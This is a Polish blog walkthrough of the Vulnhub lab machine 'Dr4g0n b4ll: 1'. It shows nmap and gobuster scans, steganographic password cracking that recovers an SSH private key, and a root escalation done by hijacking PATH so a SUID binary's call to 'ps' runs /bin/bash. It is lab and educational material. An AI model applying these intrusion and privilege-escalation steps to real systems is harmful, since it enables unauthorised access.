 ```yaml
---
title: "Dr4g0n b4ll: 1"
excerpt: " "
comments: true
categories:
  - Hacking
tags:
  - Hacking
  - Vulnhub
header:
  overlay_image: /assets/images/pasek-hack.png
gallery1_2:
  - url: /assets/images/hacking/2021/07/01.jpg
    image_path: /assets/images/hacking/2021/07/01.jpg
  - url: /assets/images/hacking/2021/07/02.jpg
    image_path: /assets/images/hacking/2021/07/02.jpg
gallery3:
  - url: /assets/images/hacking/2021/07/03.png
    image_path: /assets/images/hacking/2021/07/03.png
gallery4:    
  - url: /assets/images/hacking/2021/07/04.png
    image_path: /assets/images/hacking/2021/07/04.png
gallery5:
  - url: /assets/images/hacking/2021/07/05.png
    image_path: /assets/images/hacking/2021/07/05.png
gallery6:
  - url: /assets/images/hacking/2021/07/06.png
    image_path: /assets/images/hacking/2021/07/06.png
---
```

# Wstęp
Wydany na początku stycznia 2021 [Dr4g0n b4ll: 1](https://www.vulnhub.com/entry/dr4g0n-b4ll-1,646/), jak to autorzy wspominają jest bardzo prostą maszyną, jednak w maju utknąłem na niej w połowie, ponieważ wcześniej nie miałem do czynienia ze stenografią. Jedna po zaliczeniu paru podatnych obrazów, trochę wiedzy przybyło i spróbowałem jeszcze raz. Jak zwykle, żeby wszystko działało pod XCP-NG trzeba zmodyfikować [Grub-a](https://kerszl.github.io/hacking/xcp-ng-i-vulnhub/). Co do poziomu, to prostota prostocie nierówna, ostatnio też bawiłem się maszyną [Hack Me Please: 1](https://www.vulnhub.com/entry/hack-me-please-1,731/), ale ona już dla mnie taka prosta nie była, jak pisał autor. Przypominała bardziej prawdziwą sytuację, niż taką upstrzoną zagadkami. W hack-me-please niestety posiłkowałem się [solucją](https://nepcodex.com/2021/08/hack-me-please-walkthrough-vulnhub/) na necie. Inny typ zadania, ale zawsze jest jakieś nowe doświadczenie. Wracając do Dragon Ball-a, to jest ciekawy trik na końcu, który nieraz się wam może przydać, ale to na końcu 😃
{: .text-justify}
## Zaczynamy
Jak zwykle skanujemy porty Nmap-em. Możemy pod Metasploitem, albo bez. Ja wolę użyć Metasploita, bo mam potem wszystkie ip, hasła, otwarte porty w jednym miejscu. Co do shella, to niekoniecznie, czasami wolę się wbić normalnie przez ssh, niż potem ulepszać Meterpreter, ale co kto woli.
{: .text-justify}
```bash
msf6 exploit(multi/handler) > db_nmap -A -p- 172.16.1.113
...
msf6 exploit(multi/handler) > services
Services
========

host          port  proto  name  state  info
----          ----  -----  ----  -----  ----
172.16.1.113  22    tcp    ssh   open   OpenSSH 7.9p1 Debian 10+deb10u2 protocol 2.0
172.16.1.113  80    tcp    http  open   Apache httpd 2.4.38 (Debian)
```
Otwarte są tylko 2 porty: 22 i 80. Na Stronie www mamy zdjęcia z anime Dragon Ball.
## Analizujemy stronę
{% include gallery id="gallery1_2"  %}
To tylko ozdoba. Prawdziwa przygoda zaczyna się w kodzie strony. Na samym dole jest zakodowany napis:
{: .text-justify}
{% include gallery id="gallery3"  %}
Po trzykrotnym rozkodowaniu mamy napis **DRAGON BALL**:
```bash
echo -n VWtaS1FsSXdPVTlKUlVwQ1ZFVjNQUT09 | base64 -d
echo -n UkZKQlIwOU9JRUpCVEV3PQ== | base64 -d
echo -n RFJBR09OIEJBTEw= | base64 -d
DRAGON BALL
```
Jednak do kodowania napisów w **BASE64** radzę pisać **echo -n**. Komenda **echo NAPIS | base64** zakoduje string i dodatkowo znak nowej linii **0x0a**.
{: .text-justify}
{: .notice--info}
Skanowanie Gobusterem:
```bash
gobuster dir -u http://172.16.1.124 -w /usr/share/wordlists/dirb/common.txt
```
I mamy ciekawą rzecz w robots.txt:

http://172.16.1.124/robots.txt
{: .notice--info}
Ponownie rozkodowujemy:
```bash
echo -n eW91IGZpbmQgdGhlIGhpZGRlbiBkaXI=  | base64 -d
echo -n ZVc5MUlHWnBibVFnZEdobElHaHBaR1JsYmlCa2FYST0K  | base64 -d
echo -n eW91IGZpbmQgdGhlIGhpZGRlbiBkaXI=  | base64 -d
you find the hidden dir 
```
Dostajemy komunikat, żeby szukać ukryty katalog. Jest tutaj:
{: .text-justify}

http://172.16.1.113/DRAGON%20BALL/Vulnhub/
{: .text-justify}
{: .notice--info}
Poniżej zawartość:
{: .text-justify}
{% include gallery id="gallery4"  %}

Możemy wejść na stronę, ale nic na niej nie zdziałamy, taka podpucha:
{: .text-justify}

http://172.16.1.113/DRAGON%20BALL/Vulnhub/login.html
{: .notice--info}
{% include gallery id="gallery6"  %}
Strona nie działa poprawnie, ale mamy login i jest ciekawy obrazek **aj.jpg**:
{: .text-justify}
## Czas przyjrzeć się obrazowi
{% include gallery id="gallery5"  %}
Rozkodujmy go:
{: .text-justify}
```bash
root@kali:/home/szikers/dr4g0n_b4ll# stegcracker aj.jpg
StegCracker 2.1.0 - (https://github.com/Paradoxis/StegCracker)
Copyright (c) 2021 - Luke Paris (Paradoxis)

StegCracker has been retired following the release of StegSeek, which
will blast through the rockyou.txt wordlist within 1.9 second as opposed
to StegCracker which takes ~5 hours.

StegSeek can be found at: https://github.com/RickdeJager/stegseek

No wordlist was specified, using default rockyou.txt wordlist.
Counting lines in wordlist..
Attacking file 'aj.jpg' with wordlist '/usr/share/wordlists/rockyou.txt'..
Successfully cracked file with password: love
Tried 451 passwords
Your file has been written to: aj.jpg.out
love
```
Podglądamy co to za plik:
{: .text-justify}
```console
root@kali:/home/szikers/dr4g0n_b4ll# file aj.jpg.out
aj.jpg.out: OpenSSH private key
```
Mamy klucz, więc możemy się dostać do shella, spróbujmy z loginem **xmen**:
{: .text-justify}
```bash
ssh -i id_rsa xmen@172.16.1.113
```
## Lądujemy w Shellu
Działa.Mamy katalog **script**, ale poszukajmy plików, które mają ustawiony bit **suid**. Może się znajdzie coś interesującego:
{: .text-justify}
```console
xmen@debian:~/script$ find / -perm -4000 2> /dev/null
/home/xmen/script/shell
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/eject/dmcrypt-get-device
/usr/lib/openssh/ssh-keysign
/usr/bin/umount
/usr/bin/su
/usr/bin/mount
/usr/bin/chsh
/usr/bin/gpasswd
/usr/bin/chfn
/usr/bin/sudo
/usr/bin/newgrp
/usr/bin/passwd
```
Godna uwagi jest zawartość w: **/home/xmen/script/shell**
```console
xmen@debian:~$ ls script/ -lah
total 32K
drwxr-xr-x 2 root root 4.0K Jan  4  2021 .
drwxr-xr-x 5 xmen xmen 4.0K Aug  9 07:17 ..
-rw-r--r-- 1 root root   75 Jan  4  2021 demo.c
-rwsr-xr-x 1 root root  17K Jan  4  2021 shell
```
W **demo.c** widać krótki kod źródłowy. Program przechodzi na uprawnienia root-a i uruchamia program **ps**:
{: .text-justify}
```c
#include<unistd.h>
void main()
{ setuid(0);
  setgid(0);
  system("ps");
}
```
Czyli działa to tak:
{: .text-justify}
```console
xmen@debian:~/script$ ./shell
   PID TTY          TIME CMD
  5013 pts/0    00:00:00 shell
  5014 pts/0    00:00:00 sh
  5015 pts/0    00:00:00 ps
xmen@debian:~/script$
```
W kodzie programu nie mamy podanej całej ścieżki do **ps**, więc możemy to wykorzystać. Stwórzmy program **ps** w katalogu domowym:
{: .text-justify}
```bash 
file=/home/xmen/ps; touch $file && echo '/bin/bash' > $file && chmod +x $file
```
A następnie wyedytujmy zmienną **PATH**, żeby na początku szukała **ps** w naszym katalogu domowym:
{: .text-justify}
```bash
PATH="/home/xmen:$(echo $PATH)"
```
```console
xmen@debian:~/script$ echo $PATH
/home/xmen:/usr/local/bin:/usr/bin:/bin:/usr/local/games:/usr/games
xmen@debian:~/script$ ./shell
root@debian:~/script# id
uid=0(root) gid=0(root) groups=0(root),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),109(netdev),1000(xmen)
root@debian:~/script#
```
## To już koniec na dziś
I to właśnie jest przestroga, żeby bardzo uważnie pisać pliki, jeżeli chcemy dać uprawnieniami **suid**. **Ps** przecież jest niegroźny, ale można zakombinować i zrobić, żeby był niebezpieczny.
{: .text-justify}
{: .notice--danger}


